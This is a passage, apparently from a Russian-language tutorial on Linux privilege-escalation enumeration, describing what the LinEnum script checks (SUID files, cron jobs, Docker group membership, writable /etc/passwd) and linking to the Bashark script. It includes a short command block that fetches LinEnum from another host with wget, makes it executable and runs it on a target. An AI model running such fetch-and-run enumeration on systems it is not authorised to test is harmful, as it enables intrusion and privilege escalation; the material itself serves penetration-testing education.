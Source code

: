 - **Службы**
    

Список сетевых подключений (TCP & UDP), список запущенных процессов, поиск списка двоичных файлов и связанных с ними разрешений, список файлов Netconf, список двоичных разрешений init.d.

- **Информация о версии**
    

Sudo, MYSQL, Postgres, Apache (проверяет конфигурацию пользователя, показывает включенные модули, проверяет файлы htpasswd, просматривает каталоги www).

- **Учетные данные по умолчанию (или которые легко взломать)**
    

Проверка учетных записей Postgres и MYSQL на наличие уязвимостей.

- **Поиск**
    

Находит все файлы SUID/GUID, доступные для записи; все файлы SUID/GUID, относящиеся к пользователям с правами Root; все «интересные» файлы SUID/GUID (например, nmap, vim). Скрипт также ищет все файлы POSIX, доступные для записи; детали сервера NFS; файлы с .conf и .log или с каким-то другим ключевым словом, добавленным во время выполнения скрипта.

- **Тесты определенной платформы или программного обеспечения**
    

Проверяет, находится ли пользователь в контейнере Docker, установлен ли он на хосте, находится ли человек в контейнер LXC.

Пользователь загружает локально размещенный скрипт LinEnum и затем выполняет его после получения соответствующих разрешений.

```
wget 192.168.1.5/LinEnum.sh  
chmod 777 LinEnum.sh  
./LinEnum.sh
```

![[Pasted image 20240310010105.png]]

Видно, что скрипт смог перечислить биты SUID на nano, cp и find.

![[Pasted image 20240310010116.png]]

При перечислении Cron Jobs он нашел файл cleanup.py. Что с ним делать – читатель уже знает.

![[Pasted image 20240310010147.png]]

Он также проверяет систему на наличие групп с привилегированным доступом. В данном случае это группа Docker.

![[Pasted image 20240310010208.png]]

LinEnum также обнаружил, что файл **/etc/passwd** доступен для записи на целевом компьютере.

### **Bashark**

**Ссылка:** [**Bashark**](https://raw.githubusercontent.com/redcode-labs/Bashark/master/bashark.sh)
